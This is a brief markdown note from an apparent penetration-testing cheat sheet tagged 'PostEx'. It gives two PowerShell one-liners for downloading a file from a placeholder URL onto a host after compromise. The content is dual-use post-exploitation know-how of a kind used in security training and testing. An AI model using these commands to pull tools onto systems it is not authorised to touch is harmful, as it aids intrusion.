 ```yaml
---
tags: [PostEx, Powershell]
title: PostEx/Powershell Download File
created: '2020-02-17T02:43:00.999Z'
modified: '2020-02-17T02:55:08.620Z'
---
```


# PostEx/Powershell Download File
```
powershell -Command '(New-Object System.Net.Webclient).DownloadFile("[url]", "[output]")'
```
or
```
powershell -Command 'Invoke-WebRequest -Uri "[url]" -Outfile "[output]'
```
